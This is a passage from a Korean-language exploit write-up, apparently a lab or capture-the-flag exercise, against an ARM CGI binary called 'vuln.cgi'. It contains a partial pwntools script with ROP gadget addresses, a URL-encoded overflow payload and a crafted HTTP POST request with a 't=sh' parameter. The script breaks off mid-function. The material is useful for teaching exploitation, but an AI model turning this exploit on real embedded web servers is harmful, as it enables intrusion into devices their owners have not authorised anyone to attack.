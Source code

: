 `ifconfig` 명령의 출력값의 길이가 고정되어있지 않습니다.

 오버플로우 사이즈를 안정적으로 계산하기 위해 `ifconfig` 명령 결과 버퍼의 길이값을 측정하고, 계산합니다.



#### no-ASLR 공격 코드

```python
#!/usr/bin/python3

from pwn import *

e = ELF("./vuln")

# Globals & Defines
spray_fix = ''
SPRAY_LEN = 0xf000
EADDR_LEN = 12

# Gadgets
sled_1 = 0x00010ca4 # pop {r11, pc}
sled_2 = 0x000108e0 # pop {r4, r11, pc}
csu_1  = 0x00010d28
csu_2  = 0x00010d0c
leave  = 0x00010ca0 # sub sp, r11, 4; pop {r11, pc}

# ETC.
str_t = 0x10e66

def purl32(value):
    a = (value & 0x000000ff) >> 0
    b = (value & 0x0000ff00) >> 8
    c = (value & 0x00ff0000) >> 16
    d = (value & 0xff000000) >> 24
    return "%{:02x}%{:02x}%{:02x}%{:02x}".format(a,b,c,d)

def form_packet(ip, param, content=''):
    packet  = ""
    packet += "POST http://{}/vuln.cgi?{} HTTP/1.1\r\n".format(ip, param)
    packet += "Host: {}\r\n".format(ip)
    packet += "Connection: keep-alive\r\n"
    packet += "Content-Length: {}\r\n".format(len(content))
    packet += "User-Agent: Mozilla/5.0\r\n"
    packet += "Accept: */*\r\n"
    packet += "Origin: http://{}\r\n".format(ip)
    packet += "Referer: http://{}/home.cgi\r\n".format(ip)
    packet += "Accept-Encoding: gzip, deflate\r\n"
    packet += "Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7\r\n"
    packet += "\r\n"
    packet += content
    packet += "\r\n"
    return packet.encode()

def form_param(payload='', spray=''):
    p = ["t=sh", "ifconfig=y"]
    if payload:
        p.append("comment="+payload)
    if spray:
        p.append("ss="+spray)
    return "&".join(p)

def payload(r11, lr, dummy_len=54):
    payload = cyclic(dummy_len).decode()
    payload += purl32(r11)
    payload += purl32(lr)
```

[^`1]: [Wikipedia: 공용 게이트웨이 인터페이스](https://ko.wikipedia.org/wiki/공용_게이트웨이_인터페이스)
[^2]: https://www.lighttpd.net/
[^3]: [CGI Envrionment Variables](http://www.cgi101.com/book/ch3/text.html)
[^4]: [strcat](https://man7.org/linux/man-pages/man3/strcat.3.html)
[^5]: [Buffer overflow](https://ko.wikipedia.org/wiki/%EB%B2%84%ED%8D%BC_%EC%98%A4%EB%B2%84%ED%94%8C%EB%A1%9C)
[^6]: [Return oriented programming]([https://ko.wikipedia.org/wiki/%EB%B0%98%ED%99%98_%EC%A7%80%ED%96%A5%ED%98%95_%ED%94%84%EB%A1%9C%EA%B7%B8%EB%9E%98%EB%B0%8D](https://ko.wikipedia.org/wiki/반환_지향형_프로그래밍))